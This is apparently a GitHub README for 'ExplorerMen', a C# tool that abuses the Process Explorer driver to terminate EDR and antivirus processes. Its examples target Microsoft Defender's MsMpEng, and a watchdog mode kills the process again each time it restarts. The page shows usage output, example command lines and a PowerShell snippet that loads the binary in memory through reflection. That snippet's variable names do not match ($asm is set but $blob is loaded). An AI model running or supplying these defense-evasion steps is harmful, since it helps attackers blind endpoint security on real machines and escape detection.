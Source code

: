 C# implementation of [Passenger](https://github.com/Yair-Men/Passenger)

Basically, using ProcExp Driver to kill EDRs.

One mode kills the process once, while the second (`/watchdog`) keeps monitoring for when a new process is up and kills it again (each time)



```PowerShell
PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe
[-] Failed to parse args
[!] Try to use /usage, /help, /examples


PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe /usage
==== Usage ====
ExplorerMen.exe { /install:<DRIVER_FILE_FULL_PATH> || /service:<SERVICE_NAME> } { /pid:<PID> || /name:<PROCESS_NAME> } [/watchdog]


PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe /examples
==== Example ====
[!] Load driver at C:\driver.sys as service with the name nonsense and kill process with id 123
ExplorerMen.exe /install:C:\driver.sys /service:nonsense /pid 123

[!] Start the service nonsense and kill process with name MsMpEng.exe
ExplorerMen.exe /service:nonsense /name:MsMpEng

[!] Start the service nonsense and kill process with id 123. Keep monitor the process, kill it everytime it is up again
ExplorerMen.exe /service:nonsense /pid:123 /watchdog
```


Use reflection from PowerShell:
```PowerShell
# Load the assembly into a variable
$asm = [IO.File]::ReadAllBytes("C:\Users\Windy\source\ExplorerMen\bin\x64\Release\ExplorerMen.exe")

# Use reflection to load it into current process memory space
[System.Reflection.Assembly]::Load($blob)

# Launch the app, seratch for the service name procexp152 and kill process named msmpeng
[ExplorerMen.Program]::Main("/service:procexp152 /name:msmpeng".Split())
```
